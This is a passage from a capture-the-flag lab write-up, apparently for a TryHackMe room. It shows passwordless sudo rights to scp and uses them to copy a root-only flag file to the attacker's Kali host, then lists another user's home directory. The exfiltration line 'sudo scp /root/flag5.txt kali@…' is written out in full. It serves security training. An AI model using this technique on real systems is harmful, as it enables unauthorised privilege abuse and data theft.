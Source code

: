 Excellent, in there we find flag 3, plus scp has been used a lot, mostly with sudo to copy the flag5.txt file to another host.

## Flag 5

The use of scp seems suspicious, let's have a look what sudo permissions dennis has:

```text
dennis@ip-10-10-9-16:~$ sudo -l
Matching Defaults entries for dennis on ip-10-10-9-16.eu-west-1.compute.internal:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User dennis may run the following commands on ip-10-10-9-16.eu-west-1.compute.internal:
    (ALL) NOPASSWD: /usr/bin/scp
```

As expected dennis can use scp as root without needing a password. We can use scp to copy flag5.txt from the root folder. First [start an ssh server](https://www.lmgsecurity.com/enable-start-ssh-kali-linux/) on our local Kali attack machine:

```text
kali@kali:~$ systemctl start ssh.socket
```

Now we can copy the file across:

```text
dennis@ip-10-10-9-16:/home/ubuntu$ sudo scp /root/flag5.txt kali@10.14.6.200:/home/kali
kali@10.14.6.200's password: 
flag5.txt
```

Let's check out the flag:

```text
kali@kali:~$ cat flag5.txt
<<HIDDEN>>
```

## Flag 2

After submitting that flag on the thm site, we need to look for the last one, flag 2.

So far we've only looked in our current directory, which is /home/dennis. Let's look if there are any other users:

```text
dennis@ip-10-10-9-16:~$ cd ..
dennis@ip-10-10-9-16:/home$ ls
dennis  ubuntu

dennis@ip-10-10-9-16:/home$ cd ubuntu/
dennis@ip-10-10-9-16:/home/ubuntu$ ls -lsa
4 drwxr-xr-x 4 ubuntu ubuntu 4096 Mar  6  2019 .
4 drwxr-xr-x 4 root   root   4096 Feb 16  2019 ..
4 -rw------- 1 ubuntu ubuntu 1285 Mar  6  2019 .bash_history
4 -rw-r--r-- 1 ubuntu ubuntu  220 Aug 31  2015 .bash_logout
4 -rw-r--r-- 1 ubuntu ubuntu 3771 Aug 31  2015 .bashrc
4 drwx------ 2 ubuntu ubuntu 4096 Feb 16  2019 .cache
4 -rw------- 1 ubuntu ubuntu  520 Feb 16  2019 .mysql_history
4 -rw-r--r-- 1 ubuntu ubuntu  655 May 16  2017 .profile
4 drwx------ 2 ubuntu ubuntu 4096 Feb 16  2019 .ssh
0 -rw-r--r-- 1 ubuntu ubuntu    0 Feb 16  2019 .sudo_as_admin_successful
4 -rw------- 1 root   root   3183 Mar  6  2019 .viminfo
```
